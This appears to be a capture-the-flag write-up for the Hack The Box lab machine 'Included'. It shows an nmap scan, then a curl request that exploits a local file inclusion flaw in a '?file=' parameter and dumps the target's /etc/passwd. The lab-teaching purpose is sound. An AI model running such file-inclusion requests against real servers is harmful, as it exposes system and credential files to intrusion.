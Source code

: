 # ENUMERATION

As alway, nmap:

```shell
└──╼ $nmap -sC -sV $SERVERIP -o enumeration/nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-03 20:31 CEST
Nmap scan report for 10.129.95.185
Host is up (0.032s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.95.185/?file=home.php

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.03 seconds
┌─[parrot]─[~/hackthebox/StartingPoint/Included]
└──╼ $

```
Let's navigate to port 80 using a browser, we can see that this has automatically changed to ```http://{target_IP}/?file=home.php```  This is a common way that developers use to dynamically load pages in a website and if not programmed correctly it can often lead to the webpage being vulnerable to LFI.

Lets try to change php "file" varialbe with curl:
```shell
──╼ $curl http://$SERVERIP/?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
┌─[parrot]─[~/hackthebox/StartingPoint/Included]
```
